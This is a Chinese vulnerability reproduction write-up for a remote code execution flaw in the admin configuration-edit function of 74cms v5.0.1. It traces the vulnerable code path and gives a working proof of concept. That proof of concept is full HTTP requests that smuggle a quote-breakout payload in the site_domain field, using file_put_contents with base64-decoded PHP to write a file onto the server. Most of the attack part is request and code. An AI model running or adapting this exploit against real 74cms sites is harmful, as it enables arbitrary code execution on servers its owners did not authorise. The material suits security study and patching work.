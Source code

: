 # 74cms v5.0.1远程执行代码

> 原文：[https://www.zhihuifly.com/t/topic/2794](https://www.zhihuifly.com/t/topic/2794)

# 74cms v5.0.1远程执行代码

## 一、漏洞简介

## 二、漏洞影响

74cms v5.0.1

## 三、复现过程

### 漏洞分析

![image](img/0b5ac894c9d13952d8beb78a90b3c64a.png)

```
POST /74cms/index.php?m=Admin&c=config&a=edit HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/74cms/index.php?m=Admin&c=Config&a=index
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 391
Connection: close
Cookie: PHPSESSID=arm0lvlbbfocml5vvac1tf3ph3; think_language=zh-CN; think_template=default `site_name=骑士人才系统&site_domain=127.0.0.1&site_dir=/74cms/&top_tel=000-00000000&bootom_tel=000-00000000&contact_email=&address=00省00市00路00号0大厦00楼&bottom_other=Copyright © 2019 [74cms.com](http://74cms.com) All Right Reserved &icp=icp000000000&isclose=0&close_reason=&statistics=&logo_home=&logo_other=` 
```

c=config&a=edit -> Controller=config&action=edit -> /Application/Admin/Controller/ConfigController.class.php Line 9: I('request.site_domain','','trim') -> trim($site_domain,'/') -> '.'.implode('.',$domain) -> array('domain'=>$domain) -> $this->update_config($config,CONF_PATH.'url.php')

```
public function edit(){
       if(IS_POST){
           $site_domain = I('request.site_domain','','trim');
           $site_domain = trim($site_domain,'/');
           $site_dir = I('request.site_dir',C('qscms_site_dir'),'trim');
           $site_dir = $site_dir==''?'/':$site_dir;
           $site_dir = $site_dir=='/'?$site_dir:('/'.trim($site_dir,'/').'/');
           $_POST['site_dir'] = $site_dir;
           if($site_domain && $site_domain != C('qscms_site_domain')){
               if($site_domain == C('qscms_wap_domain')){
                   $this->returnMsg(0,'主域名不能与触屏版域名重复！');
               }
               $str = str_replace('http://','',$site_domain);
               $str = str_replace('https://','',$str);
               if(preg_match('/com.cn|net.cn|gov.cn|org.cn$/',$str) === 1){
                   $domain = array_slice(explode('.', $str), -3, 3);
               }else{
                   $domain = array_slice(explode('.', $str), -2, 2);
               }
               $domain = '.'.implode('.',$domain);
               $config['SESSION_OPTIONS'] = array('domain'=>$domain);
               $config['COOKIE_DOMAIN'] = $domain;
               $this->update_config($config,CONF_PATH.'url.php');
           } 
```

/ThinkPHP/Common/functions.php第271行中的I（'request.site_domain'，''，'trim'）是字符串。request.site_domain-> $ _REQUEST ['site_domain']-> $ _ REQUEST ['site_domain']是字符串->修剪（$ _REQUEST ['site_domain']）

```
function I($name,$default='',$filter=null,$datas=null) {
    ...
    if(strpos($name,'.')) { // 指定参数来源
        list($method,$name) =   explode('.',$name,2);
    }else{ // 默认为自动判断
        $method =   'param';
    }
    switch(strtolower($method)) {
        case 'get'     :   
            $input =& $_GET;
            break;
        case 'post'    :   
            $input =& $_POST;
            break;
        ...
        case 'request' :   
            $input =& $_REQUEST;   
            break;
        ...
    }
    if(''==$name) { // 获取全部变量
      ...
        }
    }elseif(isset($input[$name])) { // 取值操作
        $data       =   $input[$name];
        $filters = isset($filter) ? $filter.','.C('DEFAULT_FILTER') : C('DEFAULT_FILTER');
        //$filters    =   isset($filter)?$filter:C('DEFAULT_FILTER');
        if($filters) {
            if(is_string($filters)){
                if(0 === strpos($filters,'/')){
                    if(1 !== preg_match($filters,(string)$data)){
                        // 支持正则验证
                        return   isset($default) ? $default : null;
                    }
                }else{
                    $filters    =   explode(',',$filters);                    
                }
            }elseif(is_int($filters)){
                $filters    =   array($filters);
            }

```
 if(is_array($filters)){
            foreach($filters as $filter){
                if(function_exists($filter)) {
                    $data   =   is_array($data) ? array_map_recursive($filter,$data) : $filter($data); // 参数过滤
                }else{
                    $data   =   filter_var($data,is_int($filter) ? $filter : filter_id($filter));
                    if(false === $data) {
                        return   isset($default) ? $default : null;
                    }
                }
            }
        }
    }
    if(!empty($type)){
      ...
}else{ // 变量默认值
    $data       =    isset($default)?$default:null;
}
is_array($data) &amp;&amp; array_walk_recursive($data,'think_filter');
return $data; 
``` `}` 
```

返回到/Application/Admin/Controller/ConfigController.class.php第29行：array（'SESSION_OPTIONS'=> array（'domain'=> $ domain），'COOKIE_DOMAIN'=> $ domain） -> update_config（$ config， CONF_PATH.'url.php'）

```
$config['SESSION_OPTIONS'] = array('domain'=>$domain);
$config['COOKIE_DOMAIN'] = $domain;
$this->update_config($config,CONF_PATH.'url.php'); 
```

/Application/Common/Controller/BackendController.class.php第467 行中的update_config（$ config，CONF_PATH.'url.php'）：

multimerge（$ config，$ new_config） -> file_put_contents（$ config_file，“ <？php \ nreturn”。stripslashes（var_export（$ config，true））。“;”，LOCK_EX）

```
 public function update_config($new_config, $config_file = '') {
        !is_file($config_file) && $config_file = HOME_CONFIG_PATH . 'config.php';
        if (is_writable($config_file)) {
            $config = require $config_file;
            $config = multimerge($config, $new_config);
            if($config['SESSION_OPTIONS']){
                $config['SESSION_OPTIONS']['path'] = SESSION_PATH;
            }
            file_put_contents($config_file, "<?php \nreturn " . stripslashes(var_export($config, true)) . ";", LOCK_EX);
            @unlink(RUNTIME_FILE);
            return true;
        } else {
            return false;
        }
    }
} 
```

multimerge($config, $new_config) in /Application/Common/Common/function.php Line 938: no restricted

```
function multimerge($a, $b) {
    if (is_array($b) && count($b)) {
        foreach ($b as $k => $v) {
            if (is_array($v) && count($v)) {
                $a[$k] = in_array($k, array('SESSION_OPTIONS')) ? multimerge($a[$k], $v) : $v;
            } else {
                $a[$k] = $v;
            }
        }
    } else {
        $a = $b;
    }
    return $a;
} 
```

CONF_PATH in /ThinkPHP/ThinkPHP.php Line 54: CONF_PATH.'url.php' -> /Application/Common/Conf/url.php

```
defined('COMMON_PATH')  or define('COMMON_PATH',    APP_PATH.'Common/'); // 应用公共目录
defined('CONF_PATH')    or define('CONF_PATH',      COMMON_PATH.'Conf/');
define('APP_PATH','./Application/'); 
```

var_export(): Quote string with slashes&Convert special characters to HTML entities -> stripslashes(): un-quotes a quoted string -> Convert special characters to HTML entities -> write file

```
file_put_contents($config_file, "<?php \nreturn " . stripslashes(var_export($config, true)) . ";",LOCK_ 
```

/Application/Home/Conf/url.php: The code after "return array(...);" does not work, so payload is site_domain=', {your php code},'

```
<?php 
return array (
  'URL_MODEL' => 0,
  'URL_HTML_SUFFIX' => '.html',
  'URL_PATHINFO_DEPR' => '/',
  'URL_ROUTER_ON' => true,
  'URL_ROUTE_RULES' => 
  array (
    '/^jobfair\/(?!admin)(\w )$/' => 'jobfair/index/:1',
    '/^mall\/(?!admin)(\w )$/' => 'mall/index/:1',
  ),
  'QSCMS_VERSION' => '5.0.1',
  'QSCMS_RELEASE' => '2019-03-19 00:00:00',
  'SESSION_OPTIONS' => 
  array (
    'domain' => '.0.1',
    0 => 18,
    1 => '',
    'path' => 'D:\***\***\***\WWW\74cms\data\session',
  ),
  'COOKIE_DOMAIN' => '.0.1',
  0 => 18,
  1 => '',
); 
```

### 复现poc

-> PD9waHAgcGhwaW5mbygpOz8

site_domain=', file_put_contents('403.php',base64_decode('PD9waHAgcGhwaW5mbygpOz8 ')),'

```
POST /74cms/index.php?m=Admin&c=config&a=edit HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/74cms/index.php?m=Admin&c=Config&a=index
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 465
Connection: close
Cookie: PHPSESSID=arm0lvlbbfocml5vvac1tf3ph3; think_language=zh-CN; think_template=default `site_name=骑士人才系统&site_domain=’, file_put_contents(‘403.php’,base64_decode(‘PD9waHAgcGhwaW5mbygpOz8+’)),’&site_dir=/74cms/&top_tel=000-00000000&bootom_tel=000-00000000&contact_email=&address=00省00市00路00号0大厦00楼&bottom_other=Copyright © 2019 [74cms.com](http://74cms.com) All Right Reserved &icp=icp000000000&isclose=0&close_reason=&statistics=&logo_home=&logo_other=` 
```

```
GET /74cms/Application/Common/Conf/url.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: text/html,application/xhtml xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=arm0lvlbbfocml5vvac1tf3ph3; think_language=zh-CN; think_template=default
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0 
```

成功截图

![image](img/9b3d3eb376e957d10325aa0ebda73dae.png)

## 四、参考链接

> https://github.com/kyrie403/Vuln/blob/master/74cms/74cms v5.0.1 remote code execution.md